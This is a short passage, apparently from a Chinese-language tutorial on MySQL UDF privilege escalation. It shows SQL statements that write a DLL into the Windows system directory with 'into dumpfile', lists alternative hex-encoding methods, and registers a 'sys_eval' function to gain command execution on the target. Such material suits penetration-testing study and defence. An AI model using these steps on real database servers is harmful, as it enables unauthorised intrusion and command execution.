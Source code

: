 这里获得的dll文件，是一个二进制进制文件，我们通过查询语句将dll上传到目标服务器上。由于目标版本为`5.0<=mysql<5.1` ，所以将dll文件上传到目标的系统目录下面。执行语句`select 0xcode into dumpfile 'C:\\Windows\\System32\\cooltige.dll'`。

![](/img/udf/eeb42572-4426-485c-b129-a12260da98ca.png)
![](/img/udf/6661e01c-98a5-46e8-809a-30f3244d4c55.png)

文件内容为二进制的写入方法有很多，这里用的是`SELECT 0X十六进制`，还有其他的方法，例如：
```
select unhex(十六进制)
select char(77,90,144...)
```

通过dll文件创建函数。`CREATE FUNCTION sys_eval RETURNS STRING SONAME 'cooltige.dll'`
